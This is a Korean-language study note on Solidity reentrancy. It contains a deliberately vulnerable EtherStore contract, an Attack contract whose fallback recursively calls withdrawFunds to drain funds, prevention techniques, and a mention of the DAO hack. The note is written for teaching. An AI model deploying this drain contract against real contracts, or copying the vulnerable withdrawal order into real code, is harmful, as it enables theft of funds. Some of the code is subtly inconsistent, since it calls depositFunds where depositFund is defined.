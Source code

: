 # Reentrancy 재진입성
- fallback 함수를 악용한 취약점
- fallback 함수에서 다시 출금 함수(withdrawFunds)를 호출

보안 취약 컨트랙트 : [EtherStore.sol](https://github.com/lhn1455/TIL/blob/main/Solidity/codingPractice/SecurityCoding/Reentrancy/EtherStore.sol)
```solidity
contract EtherStore {

    uint256 public withdrawalLimit = 1 ether;
    mapping(address => uint256) public lastWithdrawTime;
    mapping(address => uint256) public balances;

    //입금함수
    function depositFund() public payable {
        balances[msg.sender] += msg.value;
    }

    //출금함수
    function withdrawFunds (uint256 _weiToWithdraw) public {
        require(balances[msg.sender] >= _weiToWithdraw);
        require(_weiToWithdraw <= withdrawalLimit);
        require(block.timestamp >= lastWithdrawTime[msg.sender] + 1 weeks);

        //변경전
        // requrie(msg.sender.calㅣ.value(_weiToWithdraw)());

        //변경후 (0.6.4 버전 이후)
        (bool success, ) = msg.sender.call {value:_weiToWithdraw}("");
        require(success, "Transfer failed.");

        balances[msg.sender] -= _weiToWithdraw;
        lastWithdrawTime[msg.sender] = block.timestamp;
    }
}
```
공격 컨트랙트 : [Attack.sol](https://github.com/lhn1455/TIL/blob/main/Solidity/codingPractice/SecurityCoding/Reentrancy/Attack.sol)

```solidity
import "contracts/Reentrancy/EtherStore.sol"; //경로 주의

contract Attack {
    EtherStore public etherStore;

    // 계약자 주소(공격 대상)로 etherStore 변수를 초기화
    constructor(address _etherStoreAddress) {
        etherStore = EtherStore(_etherStoreAddress);
    } 

    //공격 함수
    function attackEtherStore() public payable {
        require(msg.value >= 1 ether);
        
        //계약자 주소(공격대상)에 1이더를 임금
        //1. depositFunds함수를 호출하여 1 이더 악성계약을 맺음
        etherStore.depositFunds{ value: 1 ether}();
        
        //출금함수 호출
        //2. 악성 계약은 withdrawFunds 출금 함수에 입금한 1이더를 요청.
        // 이전에 거래한 적이 없어 모든 조건을 통과함 (EtherStore.sol 출금조건)
        //3. 계약자가 컨트랙트라 호출 시 에러가 발생
        etherStore.withdrawFunds(1 ether);
    }
  
    function collectEther() public {
        payable(msg.sender).transfer((address(this)).balance);
    }

    //fallback function(종료시 호출)
    //4. 악성계약의 fallback 함수를 실행
    fallback() payable external{
        //계약자 주소(공격 대상)에 이더가 있을 경우 다시 출금 함수를 호출
        //5. 잔액을 비교하여 남아 있는지 확인
        if(address(etherStore).balance > 1 ether) {
            //6. 잔액이 있을 경우 다시 withdrawFunds 함수를 호출
            //7. 이 두번째 withdrawFunds 함수도 아직 실행 전이라 
            //1이더는 여전히 남아 있어 모든 요구 사항이 충족되어 모든 조건을 통과 (EtherStore.sol 출금조건)
            //8. fallback 함수는 잔액이 0 이더일 때 까지 계속 withdrawFunds 함수를 호출
            etherStore.withdrawFunds(1 ether);
        }
    }

}
```
<hr>

## 예방 기법

1. transfer 함수 호출 (권장 안함)
참고 : [ExternalCalls.md](https://github.com/lhn1455/TIL/blob/main/Solidity/codingPractice/SecurityCoding/Reentrancy/ExternalCalls.md)
2. The checks-effects-interactions pattern (외부 호출 전에 값을 먼저 수정)
3. 뮤텍스 이용 (이전 호출을 종료한 후 다음 호출을 실행)
    > **뮤텍스 Mutex(Mutual Exclusion)**      
    임계구역에 들어갈 권한 검사   
    ex) `bool reEntrancyMutex = false;` 재진입 가능   
        `bool reEntrancyMutex = true;` false로 바뀔때 까지 재진입 불가능

보안 적용 컨트랙트 : [EtherStoreSecurity.sol](https://github.com/lhn1455/TIL/blob/main/Solidity/codingPractice/SecurityCoding/Reentrancy/EtherStoreSecurity.sol)
<hr>

## 실제 사례 : DAO

DAO는 이더리움 초기 개발에서 일어난 주요 해킹들 중 하나로, 당시 계약금은 1억 5000만 달러가 넘었고, 이로 인해 Ethereum Classic(ETC)이 만들어 졌음.   
DAO 사건으로 3,600,000ETH를 해킹당함


